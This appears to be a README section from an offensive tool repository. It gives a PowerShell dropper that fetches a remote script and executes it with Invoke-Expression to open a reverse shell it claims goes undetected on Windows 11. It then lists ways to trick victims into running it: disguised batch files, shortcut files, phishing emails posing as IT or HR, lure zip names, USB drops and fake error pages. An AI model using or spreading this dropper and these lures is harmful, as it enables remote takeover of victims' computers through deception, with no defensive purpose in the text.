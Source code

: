 By runnning the following dropper on the Windows 11 victim machine you can obtain a reverse shell that remains undetected (25/14/6)!

$wc = New-Object System.Net.WebClient
$code = $wc.DownloadString("http://10.0.0.21/lsass.ps1")
Invoke-Expression $code 

Note - update the web address in the $code variable, and in the script itself. 

Here are a few ways you can have someone run the dropper:

📄 Batch File Wrapper

Wrap the PowerShell dropper in a .bat file and name it something like OpenMe.bat, ActivateLicense.bat, or FixErrors.bat.

🔁 Rename as a Shortcut File (.lnk)

Use a shortcut icon that looks like a folder or document, but the shortcut runs PowerShell silently.

📧 Email Attachment or Link

Send an email pretending to be IT, HR, or customer support:
“Run this tool to fix an issue with your account”

📦 Zip File Disguise

Place the .bat or .ps1 inside a .zip with names like Invoice_Tool.zip, GamePatch.zip, or Resume_Viewer.zip.

💾 USB Drop Attack

Leave a USB drive labeled "Photos", "Payroll Info", etc., with an autorun.bat or enticing file.

📝 Fake Error Message + Instructions

Social engineer the user into copy/pasting a PowerShell command into their terminal (e.g., from a fake webpage or chat support).

🖱️ Right-Click Instructions

Provide instructions like "Right click the file and choose 'Run with PowerShell'" to bypass .ps1 execution restrictions.
